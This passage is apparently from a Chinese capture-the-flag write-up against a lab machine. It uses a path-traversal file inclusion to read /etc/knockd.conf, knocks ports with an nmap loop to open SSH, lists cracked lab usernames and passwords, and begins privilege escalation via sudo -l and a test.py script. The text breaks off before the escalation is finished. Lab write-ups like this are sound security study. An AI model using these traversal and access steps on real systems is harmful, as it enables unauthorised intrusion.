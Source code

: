 ![image-20211007230414693](/assets/img/image-20211007230414693.png)

发现存在file参数文件包含漏洞

![image-20211007230703806](/assets/img/image-20211007230703806.png)

查攻略，发现使用了knock 服务保护 SSH,按特定的访问端口才可以访问服务，访问knock的配置文件

http://172.16.89.10/manage.php?file=../../../../../../../../etc/knockd.conf

![image-20211007232625489](/assets/img/image-20211007232625489.png)

访问配置文件中的端口

```bash
for x in 7469 8475 9842; do nmap -Pn --max-retries 0 -p $x 192.168.141.143; done
```

下来ssh可以连接了，尝试之前UserDetail表中爆出的账号密码，发现三个可用

```
chandlerb   UrAG0D!
joeyt       Passw0rd
janitor     Ilovepeepee
```

在hanitor下发现隐藏文件

![image-20211007233100015](/assets/img/image-20211007233100015.png)

使用这个密码表再测一下ssh，发现一个新账号登陆成功

```
fredf   B4-Tru3-001
```

下来尝试提权

## 0x04 提权

运行

```
sudo -l
```

![image-20211007233251603](/assets/img/image-20211007233251603.png)

运行/opt/devstuff/dist/test/test，发现其实是运行test.py

![image-20211007233446942](/assets/img/image-20211007233446942.png)

搜索test.py

```
find / -name test.py
```

发现test.py路径：/opt/devstuff/test.py，查看test.py代码
